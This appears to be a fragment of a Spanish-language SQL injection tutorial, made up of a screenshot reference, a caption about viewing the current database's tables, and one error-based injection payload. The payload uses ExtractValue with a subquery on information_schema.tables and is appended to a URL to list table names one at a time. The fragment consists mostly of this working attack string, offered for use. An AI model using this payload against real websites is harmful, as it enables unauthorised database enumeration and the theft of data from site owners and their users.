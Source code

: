 ![v_database](/assets/img/screens/database_2.png)

<br>
Visualizando tablas de la base de datos actual:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND ExtractValue('algo',concat('`', (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT x,1)));#</font></pre>
